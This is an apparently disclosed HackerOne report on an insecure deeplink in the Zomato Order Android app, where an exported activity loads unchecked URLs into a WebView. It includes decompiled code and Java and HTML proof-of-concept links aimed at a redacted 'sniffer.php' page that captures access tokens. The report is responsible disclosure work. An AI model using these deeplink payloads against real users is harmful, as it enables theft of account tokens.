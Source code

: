 # [Zomato Order] Insecure deeplink leads to sensitive information disclosure

## Report Details
- **Report ID**: 532225
- **URL**: https://hackerone.com/reports/532225
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-04-09T01:46:13.333Z
- **Disclosed**: 2021-09-23T05:54:00.030Z

## Reporter
- **Username**: shell_c0de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Hello, i want to report the vulnerability found,
Since the following activity `com.application.zomato.activities.DeepLinkRouter` has `exported="true"` it can be exploited by another application.

###Application Information

Application: [Zomato Order - Food Delivery App](https://play.google.com/store/apps/details?id=com.application.zomato.ordering)
Package Name: `com.application.zomato.ordering`
Version: `5.6.4`
Version Status: Last
Vulnerable class: `com.application.zomato.activities.DeepLinkRouter`

###Vulnerability

Using a special intent, you can send the access tokens to a malicious site.
```java
Follow the code
public class com.application.zomato.activities.DeepLinkRouter extends BaseAppCompactActivity {
public void onCreate(Bundle arg4) {
        super.onCreate(arg4);
        this.setContentView(0x7F0B04D2);
 if((TextUtils.isEmpty(this.c)) && this.getIntent() != null && this.getIntent().getAction() != null && ("android.intent.action.VIEW".equals(this.getIntent().getAction()))) {
            this.c = this.getIntent().getData().toString();
        }
        this.e(this.c);// getting zomatodelivery://etc URL
//..
private void e(String arg11) {
v0 = Uri.parse(arg11);
            if(!"zomato".equals(v0.getScheme()) && !"zomatodelivery".equals(v0.getScheme())) {
                return;
            }
            v1 = v0.getHost();
 if("zloyaltywebview".equals(v1)) {
                            if(TextUtils.isEmpty(v0.getQueryParameter("url"))) {
                                goto label_1496;
                            }
                            if(v0.getQueryParameter("navigation_bar_type") != null) {
                                if(!v0.getQueryParameter("navigation_bar_type").equalsIgnoreCase("transparent")) {
                                }
                                else {
                                    this.a(v0);//without check host
                                    goto label_1496;
                                }
                            }

                            this.g(v0);//with check host
                            goto label_1496;
//..
   private void a(Uri arg4) {
        String v0 = arg4.getQueryParameter("header_title");
        String v4 = arg4.getQueryParameter("url") != null ? arg4.getQueryParameter("url") : "";
        this.a(new Intent[]{WebViewActivity.newIntent(((Context)this), v4, v0, false)});//loadUrl
    }
```
Host check missing.
###PoC:
Java PoC:
```java
  Intent intent = new Intent("android.intent.action.VIEW");
  intent.setData(Uri.parse("zomatodelivery://zloyaltywebview/?url=██████████sniffer.php&navigation_bar_type=transparent"));
  startActivity(intent);
```
Payload: ████████
███████

HTML PoC:
```html
<a href="zomatodelivery://zloyaltywebview/?url=████sniffer.php&navigation_bar_type=transparent">Send token Zomato</a>
```
████
Payload: █████████zomato.html

###Fix
Check the host before load to WebView, your regular check in CommonLib works fine.

## Impact

1) Leakage of access tokens to arbitrary sites
2) XSS/Ability of open arbitrary sites in your internal WebView

## Attachments
No attachments
